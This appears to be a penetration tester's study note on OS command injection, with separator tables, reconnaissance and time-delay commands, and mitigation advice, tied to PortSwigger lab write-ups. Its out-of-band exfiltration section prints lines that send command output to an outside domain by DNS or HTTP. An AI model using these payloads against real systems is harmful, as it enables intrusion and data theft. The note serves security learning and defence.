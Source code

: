 # [Operating System Command Injection](https://portswigger.net/web-security/os-command-injection)

> A web application vulnerability in which the application passes unsanitized user input into some part of an operating system (shell) command. The attacker breaks out of the original shell command and executes their own arbitrary commands to achieve their objectives.

---

## OS Command Injection with Output in Response

### Process

#### 1. Profile the web application and identify any inputs that might be passed to a shell command

#### 2. Play around with various [[os-command-injection#Command Separators|command separators]] to ensure you can break out of the original command

#### 3. Execute commands (potentially from the [[os-command-injection#Useful Commands|useful commands list]])

Example: [PortSwigger Web Security Academy OS Command Injection Lab - OS command injection, simple case](https://github.com/tgihf/writeups/blob/master/port-swigger-web-academy/os-command-injection/01%20-%20OS%20command%20injection%2C%20simple%20case.md).

---

## Blind OS Command Injection

### Process

#### 1. Profile the web application and identify any inputs that might be passed to a shell command

#### 2. Play around with various [[os-command-injection#Command Separators|command separators]] and [[os-command-injection#Time Delay Commands|time delay commands]] to ensure you can break out of the original command and execute your own

#### 3. Execute commands (potentially from the [[os-command-injection#Useful Commands|useful commands list]]) and retrieve output

##### Different methods of retrieving output:

###### 1. Redirect output to a location that is readable

Are there any files or directories on the target machine that are readable? Maybe via an SMB share? Or a web root (i.e., `/var/www/`)?

Use the `>` operator in `bash`, `cmd`, and `PowerShell` to direct the output of the comand to the readable file or directory.

Example: [PortSwigger Web Security Academy OS Command Injection Lab - Blind OS command injection with output redirection](https://github.com/tgihf/writeups/blob/master/port-swigger-web-academy/os-command-injection/03%20-%20Blind%20OS%20command%20injection%20with%20output%20redirection.md).

###### 2. Out-of-band exfiltration

Execute a command and have the target post the output via DNS or HTTP to a domain or server that you own.

Always be aware of the fact that DNS names have to start with a letter.

Linux:

```bash
nslookup `whoami`.tgihf.click
```

```bash
curl "https://blah.tgihf.click?output=$(whoami)"
```

Windows `PowerShell`:

```powershell
Resolve-DnsName -Name "$($Env:Username).tgihf.click"
```

```powershell
$output = whoami; curl https://blah.tgihf.click?output=$output
```

---

## Command Separators

### Linux `bash`

| operator | usage | function |
| --- | --- | --- |
| `#` | `whoami # blah` | Comment |
| `;` | `whoami; id` | Execute both commands in sequence |
| `&&` | `whoami && id` | AND. Execute the second command if the first command completes successfully |
| \|\| | whoami \|\| id | OR. Execute the second command only if the first command fails |
| `&` | `whoami & id` | Execute the first command in the background, then executed the second command |
| \` \` | ls \`id\` | Inline execution. Command inside the backticks is executed before the outer command |
| `$()` | `ls $(id)` | Inline execution. Command inside the parenthesis is executed before the outer command |

### Windows `cmd`

| operator | usage | function |
| --- | --- | --- |
| `&` | `whoami & net user` | Execute both commands in sequence |
| `&&` | `whoami && net user` | Logical AND. Execute the second comand if the first command completes successfully |
| \|\| | whoami \|\| id | OR. Execute the second command only if the first command fails |

### Windows `PowerShell`

| operator | usage | function |
| --- | --- | --- |
| `;` | `whoami; net user` | Execute both comands in sequence |

---

## Useful Commands

| Description | Linux | Windows |
| --- | --- | --- |
| Name of current user | `whoami` | `whoami` |
| Operating system | `uname -a` | `ver` |
| Network configuration | `ifconfig` | `ipconfig /all` |
| Network connections | `netstat -an` | `netstat -an` |
| Running processes | `ps -ef` | `tasklist` |

---

## Time Delay Commands

### Linux Time Delay Commands

- `sleep $N`
	- Sleep for `$N` seconds
- `ping -c $N 127.0.0.1`
	- Ping localhost `$N` times, once per second

Example: [PortSwigger Web Security Academy OS Command Injection Lab - Blind OS command injection with time delays](https://github.com/tgihf/writeups/blob/master/port-swigger-web-academy/os-command-injection/02%20-%20Blind%20OS%20command%20injection%20with%20time%20delays.md).

### Windows `cmd` Time Delay Commands

- `timeout /t $N /nobreak >nul`
	- Sleep for `$N` seconds
- `ping 127.0.0.1 -n $N > nul`
	- Ping localhost `$N` times, once per second


### Windows `PowerShell` Time Delay Comands

- `Start-Sleep -Seconds $N | Out-Null`
	- Sleep for `$N` seconds
- `Test-Connection 127.0.0.1 -Count $N | Out-Null`
	- Ping localhost `$N` times, once per second

---

## OS Command Injection Mitigation

### 1. Don't pass user input to OS commands

There is generally a way to implement the same functionality using safer, platform-dependent APIs.

### 2. If you can't do #1, validate user input

It is best to validate user input against a whitelist of permitted values.

If you can't do that, validate user input against a solid regular expression.

If you can't do either of those, at least verify that user input contains only permitted characters, like alphanumeric characters. No other syntax, like whitespace or any of the [[os-command-injection#Command Separators|command separators]], should be allowed.

Don't attempt to simply escape shell metacharacters. This approach is too error-prone and vulnerable to being bypassed by a skilled attacker.
